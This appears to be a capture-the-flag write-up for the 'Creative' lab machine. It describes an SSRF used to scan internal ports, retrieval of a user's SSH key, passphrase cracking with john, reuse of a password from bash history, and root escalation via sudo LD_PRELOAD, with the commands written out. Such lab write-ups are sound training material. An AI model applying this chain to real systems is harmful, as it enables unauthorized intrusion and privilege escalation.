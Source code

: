 # Creative

### boot2root
Initial scan shows port 22 and 80 open.

    # Nmap 7.94SVN scan initiated Sun Oct 27 20:21:21 2024 as: /usr/lib/nmap/nmap --privileged -p22,80 -sV -sC -oN scan 10.10.239.164
    Nmap scan report for 10.10.239.164
    Host is up (0.045s latency).
    
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
    |   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
    |_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
    |_http-title: Did not follow redirect to http://creative.thm
    |_http-server-header: nginx/1.18.0 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Since port 80 is redirecting packets to creative.thm, add the following line to the `/etc/hosts` file

    Target_IP creative.thm
I started enumerating, the webpage has nothing interesting. I used gobuster to enumerate directories and subdomains, but nothing. Then I used it again to enumerate vhosts. The command I used is the following: `gobuster vhost -u "http://10.10.239.164" --domain creative.thm -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --append-domain --exclude-length 250-320`. 
Here's the explanation for this command: 

    gobuster vhost: use the vhost enumeration mode
    -u: specify host
    --domain: specify domain name
    -w: specify wordlist
    --append-domain: adds "creative.thm" to the terms from the wordlist
    --exclude-length 250-320: filters answers based on the length between 250 and 320, avoiding error messages.
![image](https://github.com/user-attachments/assets/b8231f8a-0c5b-4180-aa84-85fdf19658a3)<br />
To access `beta.creative.thm`, add it into the `/etc/hosts` file. Tne page seems to be a page to test the existence of a URL: <br />
![image](https://github.com/user-attachments/assets/8fbf0464-82aa-4df1-89ed-6ee75514a2e2)<br />
If I try to test my own URL using a netcat listener, we get a GET request from `python-request 2.28.2`. Some reaserch suggests that there's no usable vulnerability of this package. After that I tried to enumerate open ports on this host by submitting the URL `http://127.0.0.1:PORT`. To do that, I captured the request on burpsuite and copied it in a file called `request.req`:<br />
![image](https://github.com/user-attachments/assets/a57e31c3-6425-4440-9dc5-c2baedfe3519)<br />
Then I run the following command: `ffuf -request request.rec --request-proto http -w <(seq 1 65535) -fw 3`:<br />
![image](https://github.com/user-attachments/assets/6ab3e9dd-5cb8-42df-ab7b-ba0dfdff7714)<br />
Found port 1337 open:<br />
![image](https://github.com/user-attachments/assets/88686e03-df18-4530-a6c1-97231793052d)<br />
Navigating in the directories, I found saad's private key:<br />
![image](https://github.com/user-attachments/assets/1a404eb1-c861-430d-8a68-00d215975c8f)<br />
![image](https://github.com/user-attachments/assets/8d0cb5f2-978b-4655-83d8-b0c994700d60)<br />
So I'm gonna use it to login into his account.<br />
![image](https://github.com/user-attachments/assets/5c978bba-62d5-4a15-a6cf-a2d9d7cc8034)<br />
It asks for a passphrase. Run `ssh2john id_rsa > id_rsa.hash` and then `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash`<br />
![image](https://github.com/user-attachments/assets/7f2d441a-dadf-48a6-b3b9-ef32af01e16a)<br />
I can now log into saad's account and get the user flag. Immediatly found some credentials in the bash_history file:<br />
![image](https://github.com/user-attachments/assets/9d1c792a-fc9b-423c-ab77-8a075b09bb12)<br />
And also some possible DB users:<br />
![image](https://github.com/user-attachments/assets/45e07072-d472-4625-b038-65f3f2b8a9ae)<br />
After enumerating the machine, I run `sudo -l`, when it prompts for the password, I used `MyStrongestPasswordYet$4291`<br />
![image](https://github.com/user-attachments/assets/ba605223-c8ed-4096-959e-a97842749146)<br />
There's no way to escalate to root using `ping`. But we can do it thanks to the LDPRELOAD. LDPRELOAD is an environment variable that let's you specify a shared library to load BEFORE executing the binary it self. Since we have sudo on the ping command, we can run it with root privileges, and use it to execute a shared library that we create. Create the exploit.c file(it's inside this folder), then compile it as a shared object using the following command: `gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles`. And now run `sudo LD_PRELOAD=/home/saad/exploit.so ping`. If it asks for a password, use again `MyStrongestPasswordYet$4291`:<br />
![image](https://github.com/user-attachments/assets/a31637ad-4778-481b-acd8-55146aa32419)<br />




